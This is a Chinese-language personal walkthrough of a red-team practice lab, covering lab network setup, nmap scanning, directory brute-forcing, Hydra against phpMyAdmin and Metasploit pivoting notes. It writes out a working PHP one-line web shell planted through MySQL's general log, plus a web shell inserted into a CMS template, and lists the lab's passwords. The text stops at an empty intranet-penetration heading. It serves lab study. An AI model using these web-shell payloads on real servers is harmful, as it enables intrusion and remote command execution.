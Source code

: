 #### 思考：

1. 如何将后门程序自启动
2. metasploit 各个阶段，左边提示是不一样的，各种时候代表着什么。
3. 如何使用代理，跳板手段，内网通道构建

#### 流程要点：

1. 寻找web网站服务器漏洞，使用漏洞获取后门，并将后门持续化
2. 资料搜集，权限提升命令，还有后门程序维持
3. 使用windows shell的时候乱码  chcp 65001
4. 获取主机的网络信息，查询目标主机能通到哪里。`run get_local_subnets`
5. 添加路由，有一条命令直接加完。`run post/multi/manage/autoroute`
6. 除了获取主机权限，还需要获取所在域内的成员账号权限。
7. 有域管理员账号，就能在域成员主机内，连接到其他域成员主机，复制文件，执行文件等操作。
8. `socks_proxy`只能通tcp的报文，因此不是任何请求都能通过此方式跳转。
9. 使用web服务器机器作为跳板代理，扫描内网。其实只是添加了另外一个网段的路由。



#### 1. 靶场配置

是因为我用mac的原因吗？一个下午，才能在自己的kali系统，ping通win7.首先是VMware Fusion需要是Pro版本，不然没发自定义VMnet，但是等我弄了Pro版本，自定义了VMnet，又发现好像不需要额外创建什么Vmnet1，VMnet2，VMnet3？？？那那些教程是干嘛的。

其次，我win7，无论是nat or 桥接， kali一直ping不通。。。搞了很久，原来是win里面网络类型，选了`工作区`我是想着，这个东西不是模拟公司内网嘛。然后用了nat或者桥接，只要开了两个网卡，kali那边即使是同一个网段，都不能打开这台win7的的服务。。。



密码： hongrisec@2019  2023? 2024?  ASDFqwer123 



#### 2. 信息收集

1. nmap搜集主机端口情况

```shell
nmap -sV 192.168.4.50
# 结果
Nmap scan report for 192.168.4.50
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
3306/tcp open  mysql   MySQL (unauthorized)
```

2. Dirbuster 

填入扫描主机ip，选择字典，然后刷个视频，摸一下鱼。

<img src="./images/20230409173932.jpg" style="zoom: 33%;" />

3. 看到有phpmyadmin这个目录后，别人都是弱口令root进去了，我要试试九头蛇行不行。

<img src="./images/20230409183648.jpg" style="zoom: 33%;" />

4. 冲到密码之后,看别的师傅是修改phpadmin中，写log的地址，原理应该是你执行的sql语句，都会记录到这个目录，那么加上这个靶机开启了php服务器，如果将这个log文件写到`/WWW`目录下，那么客户机是能访问到的，其次如果将php语句写入到一个php文件？ 😏

**flag：日志文件写入shell**

```shell
set global general_log="ON";
set global general_log_file="C:/phpStudy/WWW/shell.php";
select "<?php @eval($_POST['cmd']); ?>";
```

然后在蚁剑，地址写上`ip地址/shell.php`,密码是cmd

<img src="./images/20230409185306.jpg" style="zoom:33%;" />

5. 抄袭老师的做法，备份了`yxcms`的代码，然后查找关于这个`cms`的历史漏洞。然后其实这个页面红日给出了答案。

<img src="./images/20230410201037.jpg" style="zoom: 50%;" />

登录了后台管理，然后在`前台模板->管理模板文件->index_index.php`编辑首页的php代码，插入一句话木马。



#### 3. 内网渗透





